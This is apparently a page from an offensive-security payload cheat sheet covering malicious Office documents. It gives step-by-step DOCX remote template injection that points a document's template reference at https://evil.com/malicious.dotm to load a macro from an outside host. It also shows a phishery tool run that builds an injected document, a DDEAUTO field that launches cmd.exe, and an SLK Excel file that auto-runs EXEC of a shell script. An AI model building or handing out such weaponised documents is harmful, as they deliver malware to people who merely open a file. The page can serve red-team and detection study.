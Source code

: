 ## DOCX - Template Injection

:warning: Does not require "Enable Macro"

### Remote Template

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. **.\word_rels\settings.xml.rels** contains a reference to the template file. That reference gets replaced with a reference to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
    ```
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
    Target="https://evil.com/malicious.dotm" TargetMode="External"/></Relationships>
    ```
7. File gets zipped back up again and renamed to .docx

### Template Injections Tools

* https://github.com/JohnWoodman/remoteInjector
* https://github.com/ryhanson/phishery

```ps1
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```


## DOCX - DDE

* Insert > QuickPart > Field
* Right Click > Toggle Field Code
* `{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

## SLK - Excel

```ps1
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
